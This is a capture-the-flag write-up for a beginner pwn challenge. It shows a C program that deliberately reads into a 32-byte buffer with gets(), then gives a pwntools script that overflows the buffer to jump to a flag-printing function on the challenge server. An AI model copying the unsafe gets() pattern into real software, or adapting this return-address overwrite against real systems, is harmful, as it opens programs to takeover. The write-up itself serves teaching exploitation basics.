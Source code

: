 # p0wn3d_3 - Pwn

This challenge provides a C program with a buffer overflow vulnerability:

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>



void ignore(void)
{
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag(void)
{
	 char *args[] = {"/bin/cat", "flag.txt", NULL};
   execve(args[0], args, NULL);
}

int main(void) 
{
	char buf[32];
  ignore(); /* ignore this function */

  printf("Now this is an original challenge. I don't think I've ever seen something like this before\n");
  sleep(2);
	gets(buf);
	puts("Drumroll please!");
	sleep(2);

  return 0;
}
```

The program uses `gets`, which has no bounds checking, to read input into a 32-byte buffer `buf`. This allows us to overflow the buffer and overwrite the return address to call `get_flag`, which executes `/bin/cat flag.txt`.

## solve.py

```py
from pwn import *

elf = ELF('./chal')
get_flag = elf.symbols['get_flag']

payload = b'A' * 40 + p64(get_flag)

r = remote('p0wn3d3.kctf-453514-codelab.kctf.cloud', 1337)
r.recvuntil(b"before\n")
r.sendline(payload)
print(r.recvall().decode())
```
